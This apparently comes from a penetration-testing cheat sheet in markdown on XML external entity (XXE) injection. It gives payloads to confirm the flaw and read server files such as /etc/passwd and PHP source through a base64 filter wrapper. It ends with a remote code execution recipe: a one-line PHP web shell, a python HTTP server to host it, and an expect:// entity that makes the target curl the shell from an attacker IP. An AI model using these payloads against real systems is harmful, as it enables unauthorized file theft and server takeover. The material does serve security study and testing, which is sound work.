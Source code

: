 # External XML Injection (XXE)
* Allows an attacker to interfere with processing of XML data
```XMLL
<!DOCTYPE example [<!ENTITY example SYSTEM "file:///etc/passwd">]>
```
## Local File Disclosure
#### Identifying 
Find a web page that accepts XML input and intercept the request with a proxy.
Look at what elements are being displayed in the XML so you no what to inject.
##### Example Injection 
Place at the top
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
Place in injection field
```xml
&company;
```
If the `DOCTYPE` is already declared you will need to add the `ENTITY` element

If the HTTP response shows the company then you know that it is vulnerable to XXE. 
* [May need to convert XML to json](https://www.convertjson.com/json-to-xml.htm)

#### Reading Files
Place at the top
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
Place in the vulnerable field
```xml
&company;
```
##### Reading source code
Try:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file://index.php">
]>
```
Alternate:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```


## Remote Code Execution
Easiest way is to look for ssh keys or passwords.
```shell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
Injection 
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
```